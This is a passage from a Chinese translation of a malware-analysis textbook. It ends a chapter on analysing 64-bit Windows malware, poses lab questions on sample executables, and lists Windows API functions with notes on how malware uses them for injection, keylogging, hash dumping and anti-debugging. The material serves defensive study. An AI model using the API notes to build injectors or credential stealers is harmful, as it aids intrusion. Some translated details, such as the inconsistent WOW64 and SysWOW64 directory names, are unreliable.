例如，RAX 寄存器是 EAX 寄存器的 64 位版本。



一些通用寄存器（RDI、RSI、RBP 和 RSP）通过在 16 位版本中添加 *L* 后缀来扩展以支持字节访问。例如，BP 通常访问 RBP 的低 16 位；现在，BPL 访问 RBP 的最低 8 位。



特殊用途寄存器是 64 位并已重命名。例如，RIP 是 64 位的指令指针。



通用寄存器的数量翻倍。新的寄存器被标记为 R8 到 R15。这些寄存器的 DWORD（32 位）版本可以通过 R8D、R9D 等方式访问。WORD（16 位）版本通过 *W* 后缀访问（R8W、R9W 等），而字节版本通过 *L* 后缀访问（R8L、R9L 等）。

x64 还支持指令指针相对数据寻址。这是 x64 与 x86 在 PIC 和 shellcode 方面的一个重要区别。具体来说，在 x86 汇编中，每次你想访问非寄存器偏移量的数据位置时，指令必须存储整个地址。这被称为 *绝对寻址*。但在 x64 汇编中，你可以访问当前指令指针偏移量的数据位置。x64 文献将这称为 *RIP 相对寻址*。列表 21-1

展示了一个简单的 C 程序，该程序访问一个内存地址。

int x;

void foo() {

int y = x;

...

}

*列表 21-1：具有数据访问的简单 C 程序*

列表 21-1 的 x86 汇编代码引用了全局数据（变量 x）。为了访问此数据，指令编码了表示数据地址的 4 个字节。这个指令不是位置无关的，因为它将始终访问地址 0x00403374，但如果这个文件被加载到不同的位置，该指令需要修改，以便 mov 指令访问正确的地址，如列表 21-2 所示。

00401004 A1 74 33 40 00 mov eax, dword_403374

*列表 21-2：列表 21-1 中的 C 程序的 x86 汇编*

64 位恶意软件

**443**

[www.it-ebooks.info](http://www.it-ebooks.info/)

你会注意到地址的字节与指令一起存储在

, , , 和 。记住字节是按最低有效字节优先存储的。字节 74、33、40 和 00 对应地址 0x00403374。

在重新编译为 x64 后，列表 21-3 显示了与列表 21-2 中出现的相同 mov 指令。

0000000140001058 8B 05 A2 D3 00 00 mov eax, dword_14000E400

*列表 21-3：列表 21-1 的 x64 汇编*

在汇编级别，似乎没有变化。指令仍然是 mov eax, dword *_address*，IDA Pro 自动计算指令的地址。然而，在操作码级别的差异使得这段代码在 x64 上位置无关，但在 x86 上不是。

在代码的 64 位版本中，指令字节不包含数据的固定地址。数据的地址是 14000E400，但指令字节是 A2 , D3 , 00 , 和 00 ，它们对应于值 0x0000D3A2\.

64 位指令将数据的地址存储为当前指令指针的偏移量，而不是像 32 位版本中那样存储为绝对地址。如果这个文件在不同的位置加载，指令仍然会指向正确的地址，这与 32 位版本不同。在这种情况下，如果文件在不同的地址加载，引用必须更改。

指令指针相对寻址是 x64 架构的一个强大补充

指令集可以显著减少在加载 DLL 时必须重定位的地址数量。指令指针相对寻址还使得编写 shellcode 变得更容易，因为它消除了为了访问数据而获取 EIP 指针的需要。不幸的是，这个补充也使得检测 shellcode 变得更加困难，因为它消除了在“位置无关代码”中讨论的 call/pop 的需要。

当与为在 x64 架构上运行的恶意软件编写的软件一起工作时，许多常见的 shellcode 技术都是不必要的或不相关的。

***x64 调用约定和堆栈使用差异***

64 位 Windows 使用的调用约定与第六章中讨论的 32 位 fastcall 调用约定最接近。调用的前四个参数通过 RCX、RDX、R8 和 R9 寄存器传递；额外的参数存储在堆栈上。

**注意**

*本节中描述的大多数约定和提示适用于在 Windows OS 上运行的编译器生成的* *代码。没有处理器强制要求遵循* *这些约定，但微软的编译器指南指定了某些规则以确保一致性和稳定性。请注意，因为手工编写的汇编代码和恶意代码可能会忽略这些规则并执行预期之外的操作。像往常一样，调查任何* *不遵循这些规则的代码。*

在 32 位代码的情况下，可以在函数中间使用 push 和 pop 指令分配和释放堆栈空间。然而，在 64 位代码中，函数不能在函数中间分配任何空间，无论它们是 push 还是其他堆栈操作指令。

**444**

第二十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

图 21-1 比较了 32 位和 64 位代码的堆栈管理。

注意在 32 位函数的图中，堆栈大小随着参数被推入堆栈而增长，然后在清理堆栈时减小。

栈空间在函数开始时分配，并在函数调用期间上下移动。在调用函数时，栈大小增加；当函数返回时，栈大小恢复正常。相比之下，64 位函数的图显示栈在函数开始时增长，并保持在该水平直到函数结束。

32 位函数

64 位函数

栈大小

栈大小

时间

时间

*图 21-1：为 32 位和 64 位架构编译的同一函数中的栈大小* 32 位编译器有时会在函数中间生成不改变栈大小的代码，但 64 位代码永远不会在函数中间改变栈大小。尽管处理器不强制执行这种栈限制，但微软的 64 位异常处理模型依赖于它才能正常工作。不遵循此约定的函数如果在发生异常时可能会崩溃或引起其他问题。

函数中间缺少 push 和 pop 指令可能会使分析员更难确定函数有多少个参数，因为没有简单的方法来判断一个内存地址是作为栈变量使用还是作为函数的参数。也无法判断寄存器是否被用作参数。例如，如果 ECX 在函数调用之前立即加载了一个值，你无法判断该寄存器是作为参数加载还是出于其他原因。

列表 21-4 展示了为 32 位处理器编译的函数调用反汇编的示例。

004113C0 将 eax 寄存器的值移动到 [ebp+arg_0]

004113C3 将 eax 寄存器的值压入栈中

004113C4 将 ecx 寄存器的值移动到 [ebp+arg_C]

004113C7 将 ecx 寄存器的值压入栈中

004113C8 将 edx 寄存器的值移动到 [ebp+arg_8]

004113CB 将 edx 寄存器的值压入栈中

004113CC 将 eax 寄存器的值移动到 [ebp+arg_4]

004113CF 将 eax 寄存器的值压入栈中

004113D0 将 aDDDD_ 的偏移量压入栈中

004113D5 调用 printf 函数

004113DB 将 esp 寄存器的值增加 14h

*列表 21-4：为 32 位处理器编译的 printf 调用*

**445**

[www.it-ebooks.info](http://www.it-ebooks.info/)

32 位汇编在调用 printf 之前有五个 push 指令，并在调用 printf 后立即将 0x14 添加到栈中以便清理。这清楚地表明有五个参数被传递给 printf 函数。

列表 21-5 展示了为 64 位处理器编译的相同函数调用的反汇编代码：

0000000140002C96 将 ecx 寄存器的值移动到 [rsp+38h+arg_0]

0000000140002C9A 将 eax 寄存器的值移动到 [rsp+38h+arg_0]

0000000140002C9E 将 eax 寄存器的值移动到 [rsp+38h+var_18]

0000000140002CA2 将 r9d 寄存器的值移动到 [rsp+38h+arg_18]

0000000140002CA7 将 r8d 寄存器的值移动到 [rsp+38h+arg_10]

0000000140002CAC 将 edx 寄存器的值移动到 [rsp+38h+arg_8]

0000000140002CB0 将 aDDDD_ 的地址加载到 rcx 寄存器中

0000000140002CB7 调用 cs:printf

*列表 21-5：为 64 位处理器编译的 printf 调用* 在 64 位反汇编中，传递给 printf 的参数数量不太明显。RCX、RDX、R8 和 R9 中的加载指令模式似乎表明参数被移动到寄存器中，以便进行 printf 函数调用，但处的 mov 指令并不那么清晰。IDA Pro 将其标记为移动到局部变量，但没有明显的方法可以区分移动到局部变量和被调用函数的参数。

在这种情况下，我们只需检查格式字符串就可以看到传递了多少参数，但在其他情况下，可能不会这么简单。

**叶函数和非叶函数**

64 位栈使用约定将函数分为两类：叶函数和非叶函数。任何调用其他函数的函数被称为*非叶函数*，而所有其他函数都是*叶函数*。

非叶函数有时被称为*框架函数*，因为它们需要一个栈帧。所有非叶函数都必须分配 0x20

当它们调用函数时，会占用栈空间。这允许被调用的函数在必要时将寄存器参数（RCX、RDX、R8 和 R9）保存在该空间中。

在叶函数和非叶函数中，栈的修改仅发生在函数的开始或结束。接下来将讨论可以修改栈帧的这些部分。

**序言和尾声 64 位代码**

Windows 64 位汇编代码在函数的开始和结束处有良好结构的部分，称为*序言*和*尾声*，它们可以提供有用的信息。序言开始处的任何 mov 指令总是用来存储传递给函数的参数。（编译器不能在序言中插入执行其他操作的 mov 指令。）列表 21-6 显示了小型函数的序言示例。

**446**

第二十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

00000001400010A0 mov [rsp+arg_8], rdx 00000001400010A5 mov [rsp+arg_0], ecx

00000001400010A9 push rdi

00000001400010AA sub rsp, 20h

*列表 21-6：小型函数的序言代码*

在这里，我们可以看到这个函数有两个参数：一个 32 位和一个 64 位。这个函数从栈中分配了 0x20 字节，这是所有非叶函数所需的，作为提供参数存储空间的地方。如果一个函数有任何局部栈变量，它将分配额外的空间来存储这些变量，除了 0x20 字节。在这种情况下，我们可以判断没有局部栈变量，因为只分配了 0x20 字节。

***64 位异常处理***

与 32 位系统中的异常处理不同，x64 中的结构化异常处理不使用堆栈。在 32 位代码中，fs:[0] 被用作当前异常处理帧的指针，该帧存储在堆栈上，以便每个函数都可以定义自己的异常处理程序。因此，你经常会发现在函数开始处修改 fs:[0] 的指令。你也会找到覆盖堆栈上异常信息的利用代码，以便在异常期间控制代码执行。

x64 中的结构化异常处理使用存储在 PE 文件中的静态异常信息表，并且不在堆栈上存储任何数据。

此外，在可执行文件的每个函数的 .pdata 部分都有一个 _IMAGE_RUNTIME_FUNCTION_ENTRY 结构，用于存储函数的开始和结束地址，以及该函数的异常处理信息指针。

**Windows 32-Bit on Windows 64-Bit**

微软开发了一个名为 Windows 32-bit on Windows 64-bit (WOW64) 的子系统，以便允许 32 位应用程序在 64 位机器上正确执行。该子系统具有一些恶意代码可以使用的功能。

WOW64 使用 x64 处理器的 32 位模式来执行指令，但需要针对注册表和文件系统进行工作绕过。

构成 Win32 环境核心的 Microsoft DLL 位于 *SYSTEMROOT* 目录中，通常在 *\Windows\System32*。许多应用程序访问此目录以搜索 Microsoft DLL 或安装它们自己的 DLL。因此，必须为 32 位和 64 位进程提供单独的 DLL 以避免冲突。

由于兼容性原因，64 位二进制文件存储在 *\System32*

目录中。对于 32 位应用程序，此目录被重定向到 *\WOW64*

目录；这是一个反直觉的选择，因为 64 位二进制文件位于

*\System**32*** 目录和 32 位二进制文件位于 *\WOW**64*** 目录中。

64 位恶意软件

**447**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在分析 64 位系统上的 32 位恶意软件时，如果你发现它将文件写入 *C:\Windows\System32*，你需要转到 *C:\Windows\WOW64* 来找到该文件。

对于访问 HKEY_ 的 32 位应用程序，还存在另一个重定向。

LOCAL_MACHINE\Software 注册表键，它映射到 HKEY_LOCAL_MACHINE\ Software\Wow6432Node。任何访问软件注册表键的 32 位应用程序都将被重定向。

32 位应用程序通常不知道它们正在 WOW64 上运行，但有一些机制允许应用程序看到 WOW64 环境之外的内容。第一个是 IsWow64Process 函数，32 位应用程序可以使用它来确定它们是否在 WOW64

进程。即使 *\System32* 正在被重定向到 WOW64\，应用程序也可以通过访问 *C:\Windows\Sysnative* 来访问实际的 *\System32* 目录。

Wow64DisableWow64FsRedirection 函数完全禁用给定线程的文件系统重定向。像 RegCreateKeyEx、RegDeleteKeyEx 和 RegOpenKeyEx 这样的注册表函数有一个新标志，可以用来指定应用程序想要访问 32 位或 64 位注册表视图，而不管应用程序的类型如何。当 32 位恶意软件进行旨在影响 64 位应用程序的更改时，可以使用此标志。

**64 位提示恶意软件功能**

64 位代码中的某些功能可以提供在 32 位代码中不可用的有关恶意软件功能的额外线索。这些功能是传统的，并且通常仅适用于编译器生成的代码。

例如，在 64 位代码中通常更容易区分指针和数据值。存储整数的最常见大小是 32 位，尽管这不是必需的。然而，即使只是存储一个从 1 到 100 迭代的索引值，大多数程序员也会选择 32 位整数进行存储。

表 21-1 展示了相同函数调用的 32 位和 64 位版本。

**表 21-1：** 32 位和 64 位带有两个参数的函数调用 **32 位汇编列表**

**64 位汇编列表**

004114F2 mov eax, [ebp+var_8]

0000000140001148mov rdx, [rsp+38h+var_18]

004114F5 push eax

000000014000114D

mov ecx, [rsp+38h+var_10]

004114F6 mov ecx, [ebp+var_14]

0000000140001151

call sub_14000100A

004114F9 push ecx

004114FA call sub_411186

在左侧显示的 32 位汇编代码中，函数 sub_411186 有两个参数。我们不知道参数的类型或用途，只知道它们都是 32 位。

在右侧显示的 64 位汇编代码中，我们同样看到两个参数，但现在我们有了额外的信息。第一条 mov 指令将值移动到 RDX 中，这告诉我们这是一个 64 位值——很可能是一个指针。第二个参数被移动到 ECX 中，这告诉我们**448**

第二十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

它是一个 32 位值，因为 ECX 是 RCX 寄存器的 32 位版本。这不可能是一个指针，因为指针是 64 位的。我们仍然不知道这个参数是整数、句柄还是其他什么，但当你开始理解一个函数时，这些小线索对于确定函数的功能至关重要。

**结论**

分析 64 位恶意软件与分析 32 位恶意软件没有太大区别，因为指令和概念非常相似。恶意软件分析师需要了解函数调用和堆栈使用是如何完成的，以便确定每个函数有多少参数和局部变量。了解 WOW64 子系统也很重要，以防你需要分析修改系统目录或操作系统使用的注册表键的 32 位可执行文件。尽管大多数恶意软件仍然是 32 位的，但 64 位恶意软件的数量仍在持续增长，其使用将在未来进一步扩展。

64 位恶意软件

**449**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**实验**

为了运行这些实验室的恶意软件以及分析恶意软件的高级版本 IDA Pro，您需要一个 64 位计算机和一个 64 位虚拟机。

**实验 21-1**

分析*Lab21-01.exe*中的代码。此实验与实验 9-2 相似，但经过调整并编译为 64 位系统。

***问题***

1\.

当您在没有参数的情况下运行此程序时会发生什么？

2\.

根据您的 IDA Pro 版本，主函数可能不会被自动识别。您如何识别对主函数的调用？

3\.

0x0000000140001150 到 0x0000000140001161 的指令中存储了什么？

4\.

您如何让此程序运行其有效负载而不更改可执行文件的名称？

5\.

在 0x0000000140001205 处的 strncmp 调用比较了哪两个字符串？

6\.

0x00000001400013C8 处的函数是否接受任何参数？

7\.

在 0x0000000140001093 处的 CreateProcess 调用传递了多少个参数？您是如何知道的？

**实验 21-2**

在 x86 和 x64 虚拟机上分析*Lab21-02.exe*中找到的恶意软件。这种恶意软件与*Lab12-01.exe*相似，增加了 x64

组件。

***问题***

1\.

恶意软件的资源部分有什么有趣的地方？

2\.

这恶意软件是针对 x64 还是 x86 编译的？

3\.

恶意软件如何确定它正在运行的环境的类型？

4\.

与 x86 环境相比，这种恶意软件在 x64 环境中的行为有何不同？

5\.

恶意软件在 x86 机器上运行时会放下哪些文件？

您在哪里可以找到文件或文件？

**450**

第二十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

6\.

恶意软件在 x64 机器上运行时会放下哪些文件？

您在哪里可以找到文件或文件？

7\.

恶意软件在 x64 系统上运行时启动了什么类型的进程？

系统？

8\.

恶意软件做了什么？

64 位恶意软件

**451**

[www.it-ebooks.info](http://www.it-ebooks.info/)

[www.it-ebooks.info](http://www.it-ebooks.info/)

**重要的 Windows**

**函数**

此附录包含 Windows 函数列表

通常由恶意软件分析师遇到，以及

每个函数的简短描述以及它可能被恶意软件如何使用。大多数这些功能都是恶意软件分析师经常遇到的，以及

已经由微软记录，此附录无意重复该信息。微软的文档非常有用，描述了几乎由微软 DLL 导出的每个函数，尽管它可能很长且技术性。

您可以在执行基本静态分析时使用此附录作为参考，无论是试图从导入表中获取信息，还是仅仅寻找指向正确方向的先进技术。

一旦确定了对特定恶意软件最相关的函数，就需要在反汇编中分析这些函数，并使用微软文档来学习每个参数的目的。

[www.it-ebooks.info](http://www.it-ebooks.info/)

**注意**

*本附录列出了一些函数的选择性列表。我们排除了仅从函数名本身就可以清楚了解其目的的函数，例如 ReadFile 和 DeleteFile。*

**accept**

用于监听传入的连接。此函数表示程序将在套接字上监听传入的连接。

**AdjustTokenPrivileges**

用于启用或禁用特定访问权限。执行进程注入的恶意软件通常会调用此函数以获取额外的权限。

**AttachThreadInput**

将一个线程的输入处理附加到另一个线程，以便第二个线程接收输入事件，如键盘和鼠标事件。

键盘记录器和其他间谍软件使用此功能。

**bind**

用于将本地地址关联到套接字，以便监听传入的连接。

**BitBlt**

用于从一台设备复制图形数据到另一台设备。间谍软件有时使用此函数来捕获屏幕截图。此函数通常由编译器作为库代码的一部分添加。

**CallNextHookEx**

在设置 SetWindowsHookEx 设置的事件的钩子代码中使用。

CallNextHookEx 调用链中的下一个钩子。分析调用 CallNextHookEx 的函数，以确定由 SetWindowsHookEx 设置的钩子的目的。

**CertOpenSystemStore**

用于访问本地系统上存储的证书。

**CheckRemoteDebuggerPresent**

检查是否有一个特定的进程（包括你自己的）正在被调试。

此函数有时用作反调试技术的一部分。

**CoCreateInstance**

创建一个 COM 对象。COM 对象提供广泛的功能。类标识符（CLSID）将告诉您哪个文件包含实现 COM 对象的代码。请参阅第七章以深入了解 COM。

**connect**

用于连接到远程套接字。恶意软件通常使用低级功能来连接到命令和控制服务器。

**454**

附录 A

[www.it-ebooks.info](http://www.it-ebooks.info/)

**ConnectNamedPipe**

用于创建一个用于进程间通信的服务器管道，该管道将等待客户端管道连接。后门和反向 shell 有时使用 ConnectNamedPipe 来简化与命令和控制服务器的连接。

**ControlService**

用于启动、停止、修改或向运行中的服务发送信号。如果恶意软件正在使用其自己的恶意服务，则需要分析实现该服务的代码，以确定调用的目的。

**CreateFile**

创建新文件或打开现有文件。

**CreateFileMapping**

创建一个文件映射句柄，将文件加载到内存中并通过内存地址使其可访问。启动器、加载器和注入器使用此函数来读取和修改 PE 文件。

**CreateMutex**

创建一个互斥对象，恶意软件可以使用它来确保在任何给定时间只有一个恶意软件实例在系统上运行。恶意软件通常使用固定的名称作为互斥锁，这可以作为基于主机的指示器来检测恶意软件的额外安装。

**CreateProcess**

创建并启动一个新的进程。如果恶意软件创建了一个新的进程，您还需要分析这个新进程。

**CreateRemoteThread**

用于在远程进程（除了调用进程之外）中启动一个线程。启动器和隐蔽恶意软件使用 CreateRemoteThread 将代码注入到不同的进程。

**CreateService**

创建一个在启动时可以启动的服务。恶意软件使用 CreateService 来实现持久性、隐蔽性或加载内核驱动程序。

**CreateToolhelp32Snapshot**

用于创建进程、堆、线程和模块的快照。

恶意软件通常将此函数作为遍历进程或线程的代码的一部分使用。

**CryptAcquireContext**

通常，恶意软件初始化 Windows 加密使用的第一个函数。还有许多与加密相关的其他函数，其中大多数以 Crypt 开头。

**DeviceIoControl**

从用户空间向设备驱动程序发送控制消息。DeviceIoControl 在内核恶意软件中很受欢迎，因为它是一种简单、灵活地在用户空间和内核空间之间传递信息的方法。

重要 Windows 函数

**455**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**DllCanUnloadNow**

一个导出函数，表示程序实现了 COM 服务器。

**DllGetClassObject**

一个导出函数，表示程序实现了 COM 服务器。

**DllInstall**

一个导出函数，表示程序实现了 COM 服务器。

**DllRegisterServer**

一个导出函数，表示程序实现了 COM 服务器。

**DllUnregisterServer**

一个导出函数，表示程序实现了 COM 服务器。

**EnableExecuteProtectionSupport**

一个未记录的 API 函数，用于修改宿主机的数据执行保护（DEP）设置，使其更容易受到攻击。

**EnumProcesses**

用于枚举系统上正在运行的过程。恶意软件通常会枚举过程以找到要注入的进程。

**EnumProcessModules**

用于枚举给定进程加载的模块（可执行文件和 DLL）。恶意软件在注入时会枚举模块。

**FindFirstFile/FindNextFile**

用于搜索目录并枚举文件系统。

**FindResource**

用来在可执行文件或已加载的 DLL 中查找资源。恶意软件有时使用资源来存储字符串、配置信息或其他恶意文件。如果您看到此功能被使用，请检查恶意软件的 PE 头中的.rsrc 部分。

**FindWindow**

在桌面上搜索一个打开的窗口。有时此函数被用作反调试技术来搜索 OllyDbg 窗口。

**FtpPutFile**

一个用于上传文件到远程 FTP 服务器的函数。

**GetAdaptersInfo**

用来获取系统上网络适配器的信息。

后门有时将 GetAdaptersInfo 作为调查的一部分来收集有关受感染机器的信息。在某些情况下，它用于收集 MAC 地址，作为反虚拟机技术的一部分来检查 VMware。

**456**

附录 A

[www.it-ebooks.info](http://www.it-ebooks.info/)

**GetAsyncKeyState**

用来确定是否按下了特定键。恶意软件有时使用此功能来实现键盘记录器。

**GetDC**

返回一个窗口或整个屏幕设备上下文的句柄。

间谍软件截取屏幕时经常使用此功能。

**GetForegroundWindow**

返回当前桌面前台窗口的句柄。键盘记录器通常使用此功能来确定用户在哪个窗口输入按键。

**gethostbyname**

用来在连接到远程主机之前对特定主机名进行 DNS 查找。作为命令和控制服务器的主机名通常作为基于网络的签名。

**gethostname**

获取计算机的主机名。后门有时将 gethostname 作为对受害机器进行调查的一部分。

**GetKeyState**

被键盘记录器用来获取键盘上特定键的状态。

**GetModuleFilename**

返回当前进程中加载的模块的文件名。

恶意软件可以使用此功能来修改或复制当前运行进程中的文件。

**GetModuleHandle**

用来获取已加载模块的句柄。恶意软件可能使用 GetModuleHandle 来定位和修改已加载模块中的代码，或寻找注入代码的好位置。

**GetProcAddress**

获取已加载到内存中的 DLL 中函数的地址。除了在 PE 文件头中导入的函数外，还用来从其他 DLL 中导入函数。

**GetStartupInfo**

获取一个包含有关当前进程如何配置运行详情的结构，例如标准句柄的指向。

**GetSystemDefaultLangId**

返回系统的默认语言设置。这可以用于自定义显示和文件名，作为对受感染受害者的调查的一部分，或者由“爱国”恶意软件使用，仅影响来自某些地区的系统。

**GetTempPath**

返回临时文件路径。如果您看到恶意软件调用此函数，请检查它是否在临时文件路径中读取或写入任何文件。

重要 Windows 函数

**457**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**GetThreadContext**

返回给定线程的上下文结构。线程的上下文存储了所有线程信息，例如寄存器值和当前状态。

**GetTickCount**

获取自启动以来的毫秒数。此函数有时用作反调试技术中的时间信息收集。GetTickCount 通常由编译器添加，并包含在许多可执行文件中，因此仅将其视为导入函数提供的信息很少。

**GetVersionEx**

返回当前正在运行的 Windows 版本信息。这可以用作受害者调查的一部分或用于选择在不同版本的 Windows 之间更改的不同偏移量的未记录结构。

**GetWindowsDirectory**

返回 Windows 目录的文件路径（通常是 *C:\Windows*）。

恶意软件有时使用此调用以确定安装附加恶意程序的目录。

**inet_addr**

将 IP 地址字符串（如 127.0.0.1）转换为可以由 connect 等函数使用的格式。指定的字符串有时可以用作基于网络的签名。

**InternetOpen**

从 WinINet 初始化高级 Internet 访问功能，如 InternetOpenUrl 和 InternetReadFile。搜索 InternetOpen 是找到 Internet 访问功能开始的好方法。InternetOpen 的一个参数是 User-Agent，有时可以作为一个好的基于网络的签名。

**InternetOpenUrl**

使用 FTP、HTTP 或 HTTPS 打开特定 URL 以建立连接。

如果 URL 是固定的，那么它们通常可以成为好的基于网络的签名。

**InternetReadFile**

从先前打开的 URL 读取数据。

**InternetWriteFile**

将数据写入先前打开的 URL。

**IsDebuggerPresent**

检查当前进程是否正在被调试，通常作为反调试技术的一部分。此函数通常由编译器添加，并包含在许多可执行文件中，因此仅将其视为导入函数提供的信息很少。

**IsNTAdmin**

检查用户是否有管理员权限。

**458**

附录 A

[www.it-ebooks.info](http://www.it-ebooks.info/)

**IsWoW64Process**

由 32 位进程使用，以确定它是否在 64 位操作系统上运行。

**LdrLoadDll**

与 LoadLibrary 类似，这是一个将 DLL 加载到进程中的低级函数。

正常程序使用 LoadLibrary，此导入的存在可能表明一个试图隐藏的程序。

**LoadLibrary**

将 DLL 加载到程序启动时可能尚未加载的进程中。几乎所有 Win32 程序都会导入此函数。

**LoadResource**

从 PE 文件中加载资源到内存中。恶意软件有时使用资源来存储字符串、配置信息或其他恶意文件。

**LsaEnumerateLogonSessions**

在当前系统上枚举登录会话，这可以用作凭证窃取器的一部分。

**MapViewOfFile**

将文件映射到内存中，并通过内存地址访问文件内容。启动器、加载器和注入器使用此功能来读取和修改 PE 文件。通过使用 MapViewOfFile，恶意软件可以避免使用 WriteFile 来修改文件内容。

**MapVirtualKey**

将虚拟键码转换为字符值。它通常被键盘记录恶意软件使用。

**MmGetSystemRoutineAddress**

与 GetProcAddress 类似，但由内核代码使用。此函数从另一个模块检索函数的地址，但它只能从 *ntoskrnl.exe* 和 *hal.dll* 获取地址。

**Module32First/Module32Next**

用于枚举进程加载的模块。注入器使用此函数来确定注入代码的位置。

**NetScheduleJobAdd**

提交一个请求，在指定的日期和时间运行程序。

恶意软件可以使用 NetScheduleJobAdd 来运行不同的程序。作为恶意软件分析师，您需要定位和分析将来将要运行的程序。

**NetShareEnum**

用于枚举网络共享。

**NtQueryDirectoryFile**

返回目录中文件的信息。Rootkits 通常挂钩此函数以隐藏文件。

重要 Windows 函数

**459**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**NtQueryInformationProcess**

返回有关指定进程的各种信息。此函数有时用作反调试技术，因为它可以返回与 CheckRemoteDebuggerPresent 相同的信息。

**NtSetInformationProcess**

可以用于更改程序的权限级别或绕过数据执行保护 (DEP)。

**OleInitialize**

用于初始化 COM 库。使用 COM 对象的程序必须在调用任何其他 COM 函数之前调用 OleInitialize。

**OpenMutex**

打开一个互斥对象句柄，恶意软件可以使用它来确保在任何给定时间只有一个恶意软件实例在系统上运行。恶意软件通常使用固定的名称作为互斥锁，这可以是基于主机的良好指标。

**OpenProcess**

打开系统上运行的另一个进程的句柄。此句柄可用于读取和写入其他进程的内存或将代码注入其他进程。

**OpenSCManager**

打开服务控制管理器的句柄。任何安装、修改或控制服务的程序必须在调用任何其他服务操作函数之前调用此函数。

**OutputDebugString**

如果附加了调试器，则将字符串输出到调试器。这可以用作反调试技术。

**PeekNamedPipe**

用于从命名管道复制数据而不从管道中删除数据。此功能在反向壳中很受欢迎。

**Process32First/Process32Next**

用于从先前的 CreateToolhelp32Snapshot 调用开始枚举进程。恶意软件通常会枚举进程以找到要注入的进程。

**QueryPerformanceCounter**

用于检索基于硬件的性能计数器的值。

此函数有时用作反调试技术的一部分来收集时间信息。它通常由编译器添加，并包含在许多可执行文件中，因此仅将其视为导入函数提供的信息很少。

**QueueUserAPC**

用于为不同的线程执行代码。恶意软件有时使用 QueueUserAPC 将代码注入另一个进程。

**ReadProcessMemory**

用于读取远程进程的内存。

**460**

附录 A

[www.it-ebooks.info](http://www.it-ebooks.info/)

**recv**

从远程机器接收数据。恶意软件通常使用此功能从远程命令和控制服务器接收数据。

**RegisterHotKey**

用于注册一个处理程序，以便在用户按下特定键组合（如 CTRL-ALT-J）时通知，无论用户按下键组合时哪个窗口是活动的。此功能有时被间谍软件使用，直到按下键组合，间谍软件才会对用户隐藏。

**RegOpenKey**

打开一个注册表键的句柄以进行读取和编辑。注册表键有时被写入，作为软件在主机上实现持久性的方式。注册表还包含大量操作系统和应用程序设置信息。

**ResumeThread**

恢复之前挂起的线程。ResumeThread 用作几种注入技术的一部分。

**RtlCreateRegistryKey**

用于从内核模式代码创建注册表。

**RtlWriteRegistryValue**

用于从内核模式代码向注册表中写入值。

**SamIConnect**

连接到安全账户管理器（SAM），以便进行访问凭证信息的后续调用。哈希转储程序访问 SAM 数据库以检索用户登录密码的哈希值。

**SamIGetPrivateData**

从安全账户管理器（SAM）数据库中查询特定用户的私有信息。哈希转储程序访问 SAM 数据库以检索用户登录密码的哈希值。

**SamQueryInformationUse**

查询安全账户管理器（SAM）数据库中特定用户的信息。哈希转储程序访问 SAM 数据库以检索用户登录密码的哈希值。

**send**

向远程机器发送数据。恶意软件通常使用此功能将数据发送到远程命令和控制服务器。

**SetFileTime**

修改文件的创建、访问或最后修改时间。恶意软件通常使用此功能来隐藏恶意活动。

**SetThreadContext**

用于修改给定线程的上下文。一些注入技术使用 SetThreadContext。

重要 Windows 函数

**461**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**SetWindowsHookEx**

设置一个钩子函数，以便在调用特定事件时被调用。

通常与键盘记录器和间谍软件一起使用，此功能还提供了一种简单的方法将 DLL 加载到系统上的所有 GUI 进程中。此功能有时由编译器添加。

**SfcTerminateWatcherThread**

用于禁用 Windows 文件保护并修改其他情况下受保护的文件。SfcFileException 也可以用于此目的。

**ShellExecute**

用于执行另一个程序。如果恶意软件创建了一个新进程，您还需要分析该新进程。

**StartServiceCtrlDispatcher**

服务用于将进程的主线程连接到服务控制管理器。任何以服务方式运行的进程必须在启动后 30 秒内调用此函数。在恶意软件中找到此函数表明该函数应以服务方式运行。

**SuspendThread**

暂停线程，使其停止运行。恶意软件有时会暂停线程，以便通过执行代码注入来修改它。

**system**

由某些 C 运行时库提供的运行另一个程序的函数。

在 Windows 中，此函数作为 CreateProcess 的包装函数。

**Thread32First/Thread32Next**

用于遍历进程的线程。注入器使用这些函数来找到要注入的适当线程。

**Toolhelp32ReadProcessMemory**

用于读取远程进程的内存。

**URLDownloadToFile**

从网络服务器下载文件并将其保存到磁盘的高级调用。

此函数在下载器中很受欢迎，因为它在一个函数调用中实现了下载器的所有功能。

**VirtualAllocEx**

一种可以在远程进程中分配内存的内存分配例程。恶意软件有时会将 VirtualAllocEx 作为进程注入的一部分使用。

**VirtualProtectEx**

改变内存区域的保护。恶意软件可能使用此函数将只读内存部分更改为可执行。

**WideCharToMultiByte**

用于将 Unicode 字符串转换为 ASCII 字符串。

**WinExec**

用于执行另一个程序。如果恶意软件创建了一个新进程，您还需要分析该新进程。

**462**

附录 A

[www.it-ebooks.info](http://www.it-ebooks.info/)

**WlxLoggedOnSAS（以及其他 Wlx*函数）** 一个必须由作为身份验证模块操作的 DLL 导出的函数。恶意软件导出许多 Wlx*函数可能正在执行图形识别和身份验证（GINA）替换，如第十一章所述。

**Wow64DisableWow64FsRedirection**

禁用在 64 位系统上加载的 32 位文件中发生的文件重定向。如果 32 位应用程序在调用此函数后写入*C:\Windows\System32*，则它将写入实际的*C:\Windows\System32*而不是被重定向到*C:\Windows\SysWOW64*。

**WriteProcessMemory**

用于向远程进程写入数据。恶意软件使用 WriteProcessMemory 作为进程注入的一部分。

**WSAStartup**

用于初始化低级网络功能。找到对 WSAStartup 的调用通常可以轻松定位网络相关功能的开始。

重要 Windows 函数

**463**

[www.it-ebooks.info](http://www.it-ebooks.info/)

[www.it-ebooks.info](http://www.it-ebooks.info/)

**T O O L S F O R M A L W A R E A N A L Y S I S**

本附录列出了流行的恶意软件分析工具，

包括书中讨论的工具和其他工具

我们没有涵盖。我们已将此列表整理得

全面，以便您可以尝试各种工具

并找出哪些最适合您的需求。

**ApateDNS**

